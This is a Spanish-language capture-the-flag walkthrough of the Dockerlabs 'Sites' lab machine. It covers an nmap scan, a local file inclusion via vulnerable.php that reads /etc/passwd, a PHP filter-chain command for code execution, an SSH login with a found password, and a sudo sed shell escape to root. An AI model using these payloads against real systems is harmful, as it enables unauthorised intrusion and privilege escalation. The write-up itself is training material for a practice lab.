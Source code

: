 # Sites

Hoy haremos la maquina Sites de [Dockerlabs](https://dockerlabs.es)

![autor](./images/sites/imagenes/autor.png)

Autor: [ElPingüinoDeMario](https://www.youtube.com/@ElPinguinoDeMario)

Dificultad: Medio

Vulnerabilidad: LFI(Local File Inclusion)

Herramientas a utilizar: Nmap, Hydra

​ Opcional: Gobuster

Scripts necesarios: [Php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator)

## INTRUSIÓN

Primero comenzamos haciendo un escaneo de nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:29 -03
Initiating ARP Ping Scan at 19:29
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 19:29, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:29
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 19:29, 1.69s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-08-05 19:29:42 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se encuentra nada interesante así que continuaremos entrando desde el navegador para ver que encontramos.

**PUERTO 80:**

![puerto80](./images/sites/imagenes/puerto80.png)

Luego de estar leyendo la página veo que trata como de un "foro" el cual explica un poco de la vulnerabilidad LFI. Revisé el código fuente y no encontré nada pero por probar antes de usar feroxbuster/gobuster se me ocurrió entrar a un archivo que nombraba en la "publicación", el cual se llama "vulnerable.php". Resulta que si es un archivo y ya no nos hace falta usar feroxbuster/gobuster ; nos dice lo siguiente:

![vulnerablePHP](./images/sites/imagenes/vulnerablePHP.png)

Nos dice que le demos un "page" o "username", viendo que la extensión del archivo es '.php' podemos probar poner '?page=' o '?username=' e introducir algo, si en "username" ponemos cualquier cosa nos da la bienvenida pero en "page" se encuentra lo interesante ya que podremos hacer un LFI, y leer archivos del sistema. Primero probé poner "../../../../../../../../../etc/passwd" como algo típico pero quedaba en blanco, así que probé con "/etc/passwd" y ya me mostró el archivo, por lo que confirmamos que trata de un LFI.

Intento conseguir el "id\_rsa" de root o de alguno de los usuarios por probar ya que antes vimos que el puerto 22 de ssh estaba abierto, pero no funciona; así que se me ocurre utilizar los [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) de php. Al probarlos vemos que funcionan por lo que significa que podemos ejecutar comandos ayudándonos con el script [Php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator) simplemente poniendo

```bash
python3 php_filter_chain_generator.py --chain "<?php system('comando que queramos'); ?>"
```

Estuve un rato probando en subir un archivo y enviarme una reverse shell pero finalmente la solución fue mucho mas simple ya que se encontraba un archivo llamado "archivitotraviesito" el cual tenia lo siguiente: ![archivitotraviesito](./images/sites/imagenes/archivitotraviesito.png)

Por lo que ya tenemos la contraseña del ssh(el mensaje no nos dice el usuario pero como nosotros vimos el "/etc/passwd" y sabemos que hay uno llamado chocolate, pero para confirmar podríamos usar hydra o medusa dependiendo de los gustos). Nos conectamos por ssh con usuario "chocolate" y contraseña "lapasswordmasmolonadelacity" y listo, estamos dentro.

## ESCALADA DE PRIVILEGIOS

Ya estando dentro podemos ejecutar "sudo -l" para ver si tenemos suerte y podemos ejecutar algun binario como root. Por suerte encontramos lo siguiente:

```bash
chocolate@2e528d8225be:~$ sudo -l
Matching Defaults entries for chocolate on 2e528d8225be:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 2e528d8225be:
    (ALL) NOPASSWD: /usr/bin/sed
chocolate@2e528d8225be:~$ 

```

luego de buscar en [GTFOBins](https://gtfobins.github.io/) vemos que podemos realizar una escalada mediante ese binario usando

```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

ejecutamos

```bash
bash
```

y listo. SOMOS ROOT

![root](./images/sites/imagenes/root.png)
